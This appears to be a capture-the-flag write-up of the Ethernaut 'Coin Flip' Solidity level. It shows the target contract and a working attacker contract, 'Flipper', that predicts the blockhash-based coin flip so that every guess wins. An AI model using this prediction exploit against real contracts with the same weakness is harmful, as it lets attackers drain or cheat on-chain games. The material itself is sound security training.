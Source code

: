 This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

  Things that might help

See the "?" page above in the top right corner menu, section "Beyond the console"

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

_______________________________________

# Solution

1. Get a new Instance of the contract
2. To make the correct guess 10 times in a row we observe that the consecutiveWins state variable is updated in the flip() function which returns a boolean
3. We make a new contract and pass the instance of the address of the CoinFlip contract in the constructor
4. Now to guess 10 times in a row we can make an external helper function which makes sure that the guess is correct everytime 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

contract Flipper{

  CoinFlip private immutable coinflip;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _coinflip){
    coinflip = CoinFlip(_coinflip);
  }

  function flip() external {
    bool guess = _guess();
    require(coinflip.flip(guess),"guess failed");
  }

  function _guess() private view returns(bool){
    uint256 blockValue = uint256(blockhash(block.number - 1));

    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    return side;

  }
}
```

# Explanation
Samrt Contract Programmer - [Ethernaut 03 - Coin Flip](https://www.youtube.com/watch?v=Bye55YkzZyM)
